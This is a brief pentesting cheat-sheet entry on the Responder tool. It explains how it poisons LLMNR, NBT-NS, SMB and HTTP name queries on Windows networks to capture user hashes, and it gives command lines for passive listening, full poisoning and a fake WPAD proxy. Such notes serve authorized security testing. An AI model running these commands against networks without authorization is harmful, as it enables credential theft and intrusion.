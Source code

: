 Responder responds to broadcast or targeted queries for many types of servers with positive results and prompts authentication from Windows domains, allowing us to gain user hashes and potentially credentials from the network. Syntaxes below. 

```shell
responder -I <interface> -A # Passive; do not respond, only listen

responder -I <interface> -v # Poisons all protocols (LLMNR, HTTP, SMB, NBT-NS, etc...)

responder -I eth0 -wrf 
# -w: Start the WPAD proxy (Fake that you are a proxy to Windows browser)
# -r: Enable answers for netbios wredir suffix queries.
# -f: Fingerprint remote host and operating system
```

Output saved to: /usr/share/responder/logs